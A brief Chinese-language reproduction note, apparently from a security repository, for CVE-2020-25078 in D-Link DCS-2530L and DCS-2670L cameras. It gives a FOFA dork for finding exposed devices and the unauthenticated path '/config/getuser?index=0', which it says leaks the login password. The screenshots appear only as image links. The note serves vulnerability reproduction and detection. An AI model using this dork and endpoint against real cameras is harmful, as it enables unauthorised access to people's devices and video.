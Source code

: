# 影响范围：
D-Link DCS-2530L <1.06.01 Hotfix
DCS-2670L<= 2.02
# CVE编号
CVE-2020-25078
# FOFa dork：
app="D_Link-DCS-2530L"  
# 漏洞复现：
登录页面：
![image](images/login.png)
通过访问未授权接口可以获得摄像头登陆密码。  
未授权接口：  
```
/config/getuser?index=0
```
![image](images/pass.png) 
成功登录：
![image](images/success.png) 
使用脚本进行检测：  
![image](images/script.png)



